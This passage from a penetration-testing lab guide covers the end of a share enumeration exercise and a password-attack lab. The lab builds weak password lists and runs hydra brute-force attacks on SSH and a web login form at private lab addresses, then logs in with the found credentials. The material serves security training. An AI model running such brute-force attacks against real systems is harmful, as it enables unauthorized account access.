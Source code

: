 **Expected Results:**
- Find 'public' share with anonymous access
- Download test.txt file
- Enumerate users and groups

---

## LAB 4: Password Attacks

### Objective: Perform brute force attacks to find credentials

```bash
# 1. Create a password list
cat > passwords.txt << EOF
password
admin
123456
password123
admin123
root
toor
letmein
EOF

# 2. Create a username list
cat > users.txt << EOF
root
admin
user
test
EOF

# 3. Brute force SSH
hydra -l root -P passwords.txt ssh://172.16.0.20

# 4. Brute force web login
hydra -l admin -P passwords.txt http-post-form://172.16.0.40/login.php:username=^USER^&password=^PASS^&Login=Login:incorrect

# 5. Try found credentials
ssh root@172.16.0.20
# Password: toor (if found)
```

**Expected Results:**
- Find credential: root:toor for SSH
- Find credential: admin:password for web

---

## LAB 5: Exploitation Practice
